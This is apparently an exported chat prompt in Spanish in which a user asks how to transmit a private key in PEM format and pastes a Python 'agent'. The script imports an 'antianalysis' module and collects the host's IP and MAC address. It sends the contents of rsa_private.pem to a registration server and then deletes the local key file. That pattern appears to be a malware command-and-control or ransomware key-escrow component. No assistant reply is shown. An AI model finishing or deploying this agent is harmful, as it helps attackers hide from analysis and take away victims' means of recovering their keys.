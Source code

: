 # Clave privada en PEM

**Created:** 3/13/2025 15:34  

## Prompt:
quiero pasar la clave privada en .PEM: import requests
import socket
import uuid
import os
import antianalysis

def get_ip_address():
    ip = socket.gethostbyname(socket.gethostname())
    return ip

def load_private_key():
    try:
        with open("rsa_private.pem", 'rb') as f:
            private_key = f.read()
        return private_key.decode('utf-8')
    except FileNotFoundError:
        print("El archivo de clave privada no fue encontrado.")
        return None
    
# Función principal del agente
def register_agent():
    # Obtener IP y MAC del agente
    ip = get_ip_address()
    mac = antianalysis.get_mac_address()
    private_key = load_private_key()
    # Cargar la clave privada desde el archivo
    server_url = 'http://127.0.0.1:5000/register_agent'
    data = {
        'ip': ip,
        'mac': mac,
        'private_key': private_key
    }
    response = requests.post(server_url, data=data)
    if response.status_code == 200:
        print("Agente registrado con éxito.")
        os.remove("rsa_private.pem")
    else:
        print(f"Error al registrar el agente: {response.text}")

if __name__ == "__main__":
    register_agent()
